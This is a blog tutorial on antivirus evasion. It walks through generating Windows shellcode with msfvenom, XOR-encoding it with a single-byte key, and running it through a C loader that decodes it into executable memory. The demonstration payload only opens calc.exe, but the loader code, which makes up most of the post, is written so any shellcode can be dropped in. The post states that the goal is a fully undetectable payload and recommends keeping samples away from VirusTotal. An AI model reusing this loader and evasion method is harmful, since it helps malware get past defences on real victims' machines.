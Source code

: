 ```yaml
---
layout: post
title: Antivirus Evasion - XOR Encryption
subtitle: Is It Still Detectable?
cover-img: /assets/img/evasion/xor/evasion-thumb.png
thumbnail-img: ""
tags: [evasion, security]
---
```

Hello Guys, In this tutorial, we will learn to bypass antivirus detection for payload execution. We will be using XOR encryption as an obfuscation technique.

The objective of this tutorial is to bypass maximum antivirus and not create a fully undetectable payload. Rather, we will follow a series of steps to make sure how it can be made FUD.

## What is XOR encryption?

In other encryption techniques, we encrypt the data (plaintext) with a key, and to get the original data back from ciphertext we perform a decryption process. 

But in XOR encryption, we encrypt the plaintext with a key to get ciphertext. The interesting fact is that to get the original data (plaintext) back, we re-encrypt the data with the same key used, i.e., the decryption process is itself encryption.

The below images might help you get an idea of how exactly XOR logic works.

![xor operation](../assets/img/evasion/xor/xor-operation.png)

![xor operation reverse](../assets/img/evasion/xor/xor-operation-reverse.png)

## Detection without XOR

For generating the shell code, we are using msfvenom. Before starting the actual antivirus evasion process using the XOR technique, let's check how many antivirus programs detect the payload without any evasion technique.

The msfvenom command to generate a shellcode that runs calc.exe is as follows:
~~~
msfvenom -p windows/x64/exec CMD=calc.exe -b "x00" -f c --platform Windows
~~~

The above command will generate shell code that executes on the x64 architecture.

The shellcode generated is as follow:
~~~
unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd";
~~~

We will use C lang for compiling the shellcode into an executable that can run on the x64 system.

The C lang template is as follows:
~~~c
#include <stdio.h>
#include <windows.h>
unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd"; // Replace Your Shell Code Here
int main()
{
 void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 memcpy(exec, buf, sizeof buf);
 ((void(*)())exec)();
 return 0;
}
~~~

We get the result, the calc.exe does gets executed.

![result without xor](../assets/img/evasion/xor/result-without-xor.png)

The compiled exe gets detected by 13 antivirus engines out of 40. 

![before xor](../assets/img/evasion/xor/before-xor.png)

{: .box-note}
**NOTE:** Never upload your samples to Virustotal, Use [AntiScan](https://antiscan.me/) or [KleenScan](https://www.kleenscan.com/index). 

## Detection with XOR


Let's try XOR encryption to see how many AVs it is able to bypass.

The C Lang template to generate XOR-ed shell code is as follows:
~~~c
#include <stdio.h>

unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd"; // Place Previous Generated Shell Code Here

int main()
{
 char key = 'M';
 int i = 0;
 for (i; i<sizeof(buf); i++)
 {
  printf("\\x%02x",buf[i]^key);
 }
}
~~~
You can change the value of the key as per your needs (it can only be a single character).

The XOR-ed shell code is
~~~ 
\x05\x7c\x84\x05\xcc\xa4\x90\xb2\xb2\xb2\x05\xc0\x48\xa2\xb2\xb2\xb2\x05\xf6\x99\x92\x96\xbe\x42\x22\xfa\xb0\x05\x7c\x15\x6a\x05\x60\xb5\xb2\xb2\xb2\xaf\xb9\x65\xda\x15\x5a\xb2\xca\x3a\xb0\x99\x92\xd7\xef\x03\x72\xa8\xe1\xcf\xda\xa7\x6c\x27\x6a\x71\xe2\xf9\xda\x1d\xec\x5a\x6a\x71\xe2\xb9\xda\x1d\xcc\x12\x6a\xf5\x07\xd3\xd8\xdb\x8f\x8b\x6a\xcb\x70\x35\xae\xf7\xc2\x40\x0e\xda\xf1\x58\x5b\x9b\xff\x43\xe3\x18\x5d\xcb\xd3\xc7\xf6\xc9\x70\xda\x3b\xdb\xae\xde\xbf\x92\xa9\x7a\x38\x99\x92\x96\xf6\xc7\xe2\x8e\xd7\xd1\x93\x46\xee\xc9\x6a\xe2\xf4\x12\xd2\xb6\xf7\x43\xf2\x19\xe6\xd1\x6d\x5f\xff\xc9\x16\x72\xf8\x98\x44\xdb\x8f\x8b\x6a\xcb\x70\x35\xd3\x57\x77\x4f\x63\xfb\x71\xa1\x72\xe3\x4f\x0e\x21\xb6\x94\x91\xd7\xaf\x6f\x37\xfa\xa2\xf4\x12\xd2\xb2\xf7\x43\xf2\x9c\xf1\x12\x9e\xde\xfa\xc9\x62\xe6\xf9\x98\x42\xd7\x35\x46\xaa\xb2\xb1\x49\xd3\xce\xff\x1a\x7c\xa3\xea\xd8\xca\xd7\xe7\x03\x78\xb2\x33\x75\xb2\xd7\xec\xbd\xc2\xa2\xf1\xc0\xc8\xde\x35\x50\xcb\xad\x4f\x66\x6d\xcb\xf6\xf8\x23\xfa\xb0\x99\x92\x96\xbe\x42\x6a\x77\x3d\x98\x93\x96\xbe\x03\x98\xcb\x3b\xf6\x15\x69\x6b\xf9\xd2\x4f\x12\xcf\xd3\x2c\x18\xd7\x9f\x67\x4f\x4c\xda\x15\x7a\x6a\x1e\xfc\xcc\x93\x12\x6d\x5e\x37\x27\x41\xf7\x8a\xe0\xf9\xd4\x42\x7b\xbb\x39\x43\x6d\x43\xdd\x23\x4e\x99\x9e\xfc\xea\xf3\xbe\x42\x22\xfa\xb0\x4d
~~~

The C lang code to run the XOR-ed shellcode is
~~~c
#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\x05\x7c\x84\x05\xcc\xa4\x90\xb2\xb2\xb2\x05\xc0\x48\xa2\xb2\xb2\xb2\x05\xf6\x99\x92\x96\xbe\x42\x22\xfa\xb0\x05\x7c\x15\x6a\x05\x60\xb5\xb2\xb2\xb2\xaf\xb9\x65\xda\x15\x5a\xb2\xca\x3a\xb0\x99\x92\xd7\xef\x03\x72\xa8\xe1\xcf\xda\xa7\x6c\x27\x6a\x71\xe2\xf9\xda\x1d\xec\x5a\x6a\x71\xe2\xb9\xda\x1d\xcc\x12\x6a\xf5\x07\xd3\xd8\xdb\x8f\x8b\x6a\xcb\x70\x35\xae\xf7\xc2\x40\x0e\xda\xf1\x58\x5b\x9b\xff\x43\xe3\x18\x5d\xcb\xd3\xc7\xf6\xc9\x70\xda\x3b\xdb\xae\xde\xbf\x92\xa9\x7a\x38\x99\x92\x96\xf6\xc7\xe2\x8e\xd7\xd1\x93\x46\xee\xc9\x6a\xe2\xf4\x12\xd2\xb6\xf7\x43\xf2\x19\xe6\xd1\x6d\x5f\xff\xc9\x16\x72\xf8\x98\x44\xdb\x8f\x8b\x6a\xcb\x70\x35\xd3\x57\x77\x4f\x63\xfb\x71\xa1\x72\xe3\x4f\x0e\x21\xb6\x94\x91\xd7\xaf\x6f\x37\xfa\xa2\xf4\x12\xd2\xb2\xf7\x43\xf2\x9c\xf1\x12\x9e\xde\xfa\xc9\x62\xe6\xf9\x98\x42\xd7\x35\x46\xaa\xb2\xb1\x49\xd3\xce\xff\x1a\x7c\xa3\xea\xd8\xca\xd7\xe7\x03\x78\xb2\x33\x75\xb2\xd7\xec\xbd\xc2\xa2\xf1\xc0\xc8\xde\x35\x50\xcb\xad\x4f\x66\x6d\xcb\xf6\xf8\x23\xfa\xb0\x99\x92\x96\xbe\x42\x6a\x77\x3d\x98\x93\x96\xbe\x03\x98\xcb\x3b\xf6\x15\x69\x6b\xf9\xd2\x4f\x12\xcf\xd3\x2c\x18\xd7\x9f\x67\x4f\x4c\xda\x15\x7a\x6a\x1e\xfc\xcc\x93\x12\x6d\x5e\x37\x27\x41\xf7\x8a\xe0\xf9\xd4\x42\x7b\xbb\x39\x43\x6d\x43\xdd\x23\x4e\x99\x9e\xfc\xea\xf3\xbe\x42\x22\xfa\xb0\x4d"; // XOR-ed shellcode Here
int main()
{
 char key = 'M';
 int i = 0;
 for (i; i<sizeof(buf) - 1; i++)
 {
  buf[i] = buf[i]^key;
 }
 
 
 void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 memcpy(exec, buf, sizeof buf);
 ((void(*)())exec)();
 return 0;
}
~~~
We get the result, the calc.exe does gets executed.

![result with xor](../assets/img/evasion/xor/result-with-xor.png)

Let's check how many antivirus programs detect the encrypted payload using XOR.

![after xor](../assets/img/evasion/xor/after-xor.png)

We were able to reduce the detection rate by almost 50% using a simple technique.

In the coming tutorial, we will explore different evasion techniques to make it FUD.